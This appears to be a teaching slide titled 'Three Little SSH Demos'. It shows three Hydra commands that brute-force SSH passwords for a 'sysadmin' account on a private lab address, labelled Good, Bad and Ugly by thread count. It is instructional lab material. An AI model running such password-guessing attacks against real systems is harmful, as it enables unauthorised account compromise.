

# Three Little SSH Demos
Good
hydra -l sysadmin -P nmap.lst 172.22.117.150 ssh -t 4
Bad
hydra -l sysadmin -P nmap.lst 172.22.117.150 ssh
Ugly
hydra -l sysadmin -P nmap.lst 172.22.117.150 ssh -t 64